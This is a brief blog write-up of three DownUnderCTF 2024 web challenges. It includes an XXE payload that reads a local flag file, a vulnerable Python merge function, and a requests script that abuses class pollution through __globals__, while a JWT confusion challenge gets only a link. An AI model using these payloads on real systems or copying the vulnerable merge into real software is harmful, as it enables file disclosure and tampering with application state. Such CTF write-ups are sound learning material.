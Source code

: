 ```yaml
---
title: DownUnderCTF 2024
date: 2024-07-16
categories: [CTF]
tags: [Write up]
---
```


## Information 
Team: `DeadSec`  

## Write up
### web/zoo feedback form  

#### Desc
Simple xxe injection prob,  
Inject exploit ( XML )
#### Exploit
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY xxe SYSTEM "file:///app/flag.txt">
]>
<root>
    <feedback>&xxe;</feedback>
</root>
```

### web/co2  

#### Desc
Python Class Pollution with improper merge function. ( Similar with Prototype Pollution )
```python
# Vulenrable function
def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)
```
#### Exploit
```python
import requests

url = "https://web-co2-b55776733224c2b7.2024.ductf.dev"

s = requests.session()
payload = {"title": "asdf","content": "asdf", "rating": 4, "referred": "asdf",'__class__':{'__init__':{'__globals__':{'flag':'true'}}}}

# login
s.post(f"{url}/login", data={"username": "whguswo", "password": "whguswo"})

# exploit
res = s.post(f"{url}/save_feedback", json=payload)
print(res.text)
```  

### web/i am confusion   

#### Desc
JWT confusion Attack And Re-sign your JWT   
[Portswigger - JWT Confusion](https://portswigger.net/web-security/jwt/algorithm-confusion)

#### Exploit
Solve with [JWT Confusion](/posts/JWT-Confusion/)
  
## Comment
It's been a while since I had time for CTF and I enjoyed it.